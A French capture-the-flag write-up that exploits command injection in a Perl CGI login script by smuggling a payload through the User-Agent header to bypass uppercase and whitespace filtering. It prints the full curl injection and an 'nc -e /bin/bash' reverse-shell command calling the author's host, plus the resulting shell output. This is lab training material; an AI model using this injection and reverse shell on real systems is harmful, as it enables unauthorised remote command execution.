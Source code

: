 ```perl
                print("Your login was accepted<br/>");
        } else {
                print("Your login failed<br/>");
        }
        print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));
```

On devine immédiatement la présence d'une injection de commande via la ligne qui appelle `egrep` mais le passage en majuscules et le retrait des espaces et ce qui s'en suit est génant.

Ma première idée a été que peut être je pourrais passer une commande en hexadécimal sans utiliser `xxd` ou une quelconque commande avec une fonctionnalité obscure de bash du genre `$(\xDE\xAD\xBE\xEF)` mais je n'ai rien trouvé de tel.

Je me suis donc concentré sur l'idée de faire exécuter une commande en n'utilisant que des majuscules et caractères spéciaux.

En utilisant une variable d'environnement (qui sont généralement en majuscules) j'espérais pouvoir appeller un path sous mon contrôle. Mettons qu'il y ait une variable `TMP` égale à `/tmp` dans l'environnement je pourrais tenter d'appeller `$TMP/BACKDOOR`. Malheureusement il n'y avait rien de tel. Il ne restait qu'à voir quelles autres variables le script CGI avait à sa disposition.

J'ai créé une instance de `thttpd` pour moi sur la VM et appelé le script suivant :

```perl
#!/usr/bin/env perl

print "Content-type: text/html\n\n";
print "<pre>\n";

foreach $key (sort keys(%ENV)) {
  print "$key = $ENV{$key}<p>";
}
print "</pre>\n";
```

J'ai ainsi retrouvé les variables classiques comme `HTTP_USER_AGENT`, `HTTP_ACCEPT_LANGUAGE`, etc.

En plaçant la commande à exécuter dans le `User-Agent` il me suffit de sortir du double quote de la commande et de faire interpréter la variable. Le serveur `thttpd` semble couper l'URL sur les points virgules j'ai eu donc recours au caractère `&` à la place.

```shellsession
$ curl "http://192.168.56.97:1616/index.cgi?username=%22%26%24HTTP_USER_AGENT%26%23&password=123" -A "nc.traditional -e /bin/bash 192.168.56.1 9999"
<html><head><title>Login resuls</title></head><body>Your login failed<br/>Would you like a cookie?<br/><br/></body></html>
```

soit l'injection `"&$HTTP_USER_AGENT&#`

J'obtiens mon reverse shell :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:59833.
id
uid=983(flag16) gid=983(flag16) groups=983(flag16)
getflag
You have successfully executed getflag on a target account
```
